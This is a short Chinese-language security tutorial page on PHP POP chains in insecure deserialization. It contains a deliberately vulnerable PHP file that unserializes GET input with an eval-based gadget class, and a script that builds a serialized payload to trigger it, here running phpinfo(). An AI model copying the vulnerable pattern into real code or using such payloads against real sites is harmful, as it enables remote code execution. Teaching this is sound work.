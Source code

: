 ```yaml
---
title: POP链
icon: 'simple-icons:deepl' 
createTime: 2025/02/04 17:03:22
permalink: /security/POP-chain/
---
```


## 概念

`POP`（Property-Oriented Programing，面向属性编程）用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集
POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：进行反序列化的数据能够被用户输入所控制。


## 漏洞利用

::: code-tabs

@tab test.php

```php
<?php
class lemon {
    protected $ClassObj;

    function __construct() {
        $this->ClassObj = new normal();
    }

    function __destruct() {
        $this->ClassObj->action();
    }
}

class normal {
    function action() {
        echo "hello";
    }
}

class evil {
    private $data;
    function action() {
        eval($this->data);
    }
}

unserialize($_GET['d']);
?>
```

@tab crack.php

```php
<?php 
class lemon {
    protected $ClassObj;
    function __construct() {
        $this->ClassObj = new evil();
    }

}
class evil {
    private $data="phpinfo();";
}
$a=new lemon();
echo urlencode(serialize($a));
?> 
```

:::



未完待续...